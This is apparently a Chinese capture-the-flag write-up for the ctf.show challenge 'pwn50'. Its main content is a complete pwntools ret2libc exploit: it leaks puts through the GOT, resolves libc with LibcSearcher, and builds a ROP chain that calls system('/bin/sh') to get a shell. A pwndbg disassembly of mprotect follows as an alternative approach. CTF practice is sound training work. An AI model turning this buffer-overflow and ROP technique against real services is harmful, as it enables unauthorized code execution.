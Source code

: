 猜是ret2libc的64位

套板子

exp：

```python
from pwn import *
from LibcSearcher import *

io = remote('pwn.challenge.ctf.show',28119)
#io=process("./pwn50")
elf = ELF('./pwn50')
# libc= ELF('libc.so.6')

ret_add =0x00000000004004fe
pop_rdi =0x00000000004007e3
main_add =0x0000000000400745
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

print("Puts_got: ",hex(puts_got))
print("Puts_plt: ",hex(puts_plt))

offset=0x20

payload1 = b'a' * (offset+8) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_add)
io.sendlineafter(b'Hello CTFshow', payload1)
puts_addr = u64(io.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
print("Puts_addr: ",hex(puts_addr))

libc = LibcSearcher('puts',puts_addr)   # libc6_2.27-0ubuntu2_amd64

libc_base = puts_addr - libc.dump('puts')
system_add = libc_base + libc.dump('system')
bin_sh_add = libc_base + libc.dump('str_bin_sh')

# libc_base = puts_addr - libc.symbols['puts']
# system_add = libc_base + libc.symbols['system']
# bin_sh_add = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a' * (offset+8) + p64(ret_add) + p64(pop_rdi) + p64(bin_sh_add) + p64(system_add)

io.sendlineafter(b'Hello CTFshow', payload2)

io.interactive()
```

貌似还可以打mprotect

### mprotect

```c
pwndbg> disass mprotect
Dump of assembler code for function mprotect:
   0x00007ffff7afd7e0 <+0>:	mov    eax,0xa
   0x00007ffff7afd7e5 <+5>:	syscall 
   0x00007ffff7afd7e7 <+7>:	cmp    rax,0xfffffffffffff001
   0x00007ffff7afd7ed <+13>:	jae    0x7ffff7afd7f0 <mprotect+16>
   0x00007ffff7afd7ef <+15>:	ret    
   0x00007ffff7afd7f0 <+16>:	mov    rcx,QWORD PTR [rip+0x2cf671]        # 0x7ffff7dcce68
   0x00007ffff7afd7f7 <+23>:	neg    eax
   0x00007ffff7afd7f9 <+25>:	mov    DWORD PTR fs:[rcx],eax
   0x00007ffff7afd7fc <+28>:	or     rax,0xffffffffffffffff
   0x00007ffff7afd800 <+32>:	ret    
End of assembler dump.
```